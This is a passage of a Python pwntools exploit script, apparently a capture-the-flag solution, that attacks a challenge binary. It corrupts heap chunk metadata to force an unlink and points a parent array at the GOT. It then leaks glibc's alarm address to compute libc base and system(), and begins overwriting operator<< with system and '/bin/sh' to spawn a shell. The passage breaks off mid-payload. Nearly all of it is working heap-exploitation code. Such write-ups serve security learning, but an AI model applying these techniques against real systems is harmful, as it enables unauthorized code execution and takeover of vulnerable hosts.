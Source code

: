 ```py
        """.format(j, i)
    to_send += """{} 255""".format(j)
    p.sendline(to_send)


# Change header of a chunk and set the prev_size so that it points to just after parent array
to_send = b"""256 86
""" + b"""272 16
"""*0x20 + b"""272 17
"""*0x11 + b"""272 18
"""*0x1 + b"""272 25
"""*0x4 + b"""272 24
"""*0x1f + b"""255 90
255 90"""
p.sendline(to_send)

# Free the chunk
to_send = """256 1
255 90
255 90"""
p.sendline(to_send)
p.sendline(to_send)
p.sendline(to_send)

# Unlink should be successful, however the first byte is not null! This will cause an infinite loop (due to how i coded the algorithm)
# This part changes the first byte to null
to_send = b"""256 37
""" + b"""274 31
"""*35 + b"""0 0
""" + b"""255 90
255 90"""
p.sendline(to_send)


# Now we change the parent array to got
p.sendline(b"""256 2
0 95
95 24
0 255""")

p.sendline(b"""256 2
0 112
112 122
0 255""")

# Leak alarm in glibc
leak = 0
for i in range(118, 112, -1):
    p.sendline("""256 1
    240 241
    0 {}""".format(i))
    p.recvuntil(str(i) + " ")
    next_byte = int(p.recvuntil(" "))
    leak <<= 8
    leak += next_byte
print(hex(leak))
libc_base = leak - 0xea5b0
system = libc_base + 0x50d60
byte_system = p64(system)

# Change operator<< to system and first double word in cout struct to /bin/sh, and pop shell!
p.sendline("""256 23
```
